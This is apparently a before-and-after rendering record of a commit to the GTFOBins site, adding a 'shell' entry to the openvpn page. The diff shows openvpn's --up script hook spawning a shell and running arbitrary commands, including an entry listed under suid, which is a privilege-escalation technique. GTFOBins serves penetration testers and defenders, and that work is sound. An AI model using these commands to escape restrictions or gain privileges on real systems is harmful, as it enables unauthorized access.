

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openvpn.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Added shell to openvpn

```diff
--- a/_gtfobins/openvpn.md
+++ b/_gtfobins/openvpn.md
@@ -4,6 +4,9 @@ functions:
     - code: |
         COMMAND='id'
         openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
+  shell:
+    - code: |
+        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c sh"
   suid:
     - code: |
         COMMAND='id'
```
